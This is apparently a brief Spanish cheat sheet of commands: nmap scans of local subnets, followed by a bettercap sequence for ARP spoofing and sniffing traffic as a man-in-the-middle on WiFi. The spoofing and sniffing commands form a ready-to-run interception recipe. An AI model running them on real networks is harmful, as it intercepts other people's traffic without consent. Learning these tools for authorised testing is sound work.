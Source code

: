 #COMANDO PARA VER EL MANUAL DE NMAP
man nmap
#COMANDO PARA ESCANEAR ALGUNAS IP EN EL LIMBO
sudo nmap 192.168.0.0/24
sudo nmap -sP 192.168.1.0/24
#COMANDO PARA ESCANEAR POR RANGO
sudo nmap -sL 192.168.1-255
#COMANDO PARA ESCANEAR LOS PUERTOS MAS USADOS, EL SISTEMA Y DETALLES
sudo nmap -sS -O -v ip




#COMANDOS  CON BETTERCAP PARA MIMT WIFI
sudo bettercap
#COMANDO PARA CONOCER LA HERRAMIENTA
help
#COMANDO PARA VER A LAS IDENTIDADES
net.probe on
net.show
#COMANDO PARA BAUTIZAR LA IDENTIDAD Y PODER VER
set arp.spoof targets {ip}
arp.spoof on
net.sniff on

#ALTERNATIVA 2
net.probe on
ticker on
set arp.spoof targets {ip}
set arp.spoof on
net.sniff.verbose false
net.sniff on
